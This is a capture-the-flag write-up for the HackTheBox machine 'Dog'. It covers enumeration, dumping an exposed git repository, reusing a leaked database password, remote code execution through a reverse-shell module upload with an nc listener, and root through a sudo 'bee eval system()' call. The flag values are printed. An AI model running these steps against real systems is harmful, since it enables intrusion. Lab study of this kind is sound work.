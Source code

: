 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```

Going over all these there is not much interesting to be found.

I use `feroxbuster` to look for interesting endpoints:

```

```


Let's say we discover:
    /core
    /modules
    /files
    /settings.php
    /robots.txt
    /index.php

## Dump Git Repo

Dump the `.git` directory using `gitdumper.sh`:
```
gitdumper.sh http://dog.htb/.git/ dog-git
cd dog-git
```

```
grep -R "@dog.htb" *                                           
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:root <dog@dog.htb>
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:tiffany <tiffany@dog.htb>
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:author root <dog@dog.htb> 1738963331 +0000
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:committer root <dog@dog.htb> 1738963331 +0000
GitTools/Dumper/git-dump/.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
GitTools/Dumper/git-dump/.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000        commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases

```

## Extract Credentials

Search for database credentials:
```
grep -r "mysql://" .
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

So, creds are:

- **User**: `root`
- **Password**: `BackDropJ2024DS2024`

Which does not work :sad:

```
root <dog@dog.htb>
tiffany <tiffany@dog.htb>
```
Try logging in at:
http://dog.htb/?q=user/login
Using:
```
Username: tiffany
Password: BackDropJ2024DS2024
```
**Success** — logged in as Tiffany.

## Authenticated RCE via Module Upload

Backdrop CMS v1.27.1 is vulnerable to **RCE via malicious module upload**.
### Prepare payload:

Make a folder named `shell/` with two files:
shell.info
```
type = module
name = Shell
description = Reverse shell
core = 1.x
package = Custom
version = 1.0
```

#### `shell.php`:

Insert a PHP reverse shell payload (e.g., from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
Then archive the folder:
```
tar -czf shell.tar.gz shell/
```

## Upload Module & Trigger Shell

Go to:
http://dog.htb/?q=admin/modules/install
- Upload `shell.tar.gz`
- Enable the module if required
- Trigger shell at:
http://dog.htb/modules/shell/shell.php
Meanwhile, on your attacker machine:
```
nc -lvnp 1234
```

Reverse shell caught as **`**www-data**`
In your reverse shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ls /home
johncusack

su johncusack
Password: BackDropJ2024DS2024

cat ~/user.txt
6f57eee316d57147f467455026103ed7
```

Check `sudo` access:
You’ll see:
```
(ALL) NOPASSWD: /usr/local/bin/bee --root=/var/www/html *
```

This lets you run the `bee` CLI (Backdrop’s tool) with root privileges.
### Exploit with system():
```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

cat /root/root.txt > /tmp/f
cat /tmp/f
b47fde5773706a20f456f96b3f51172d
```
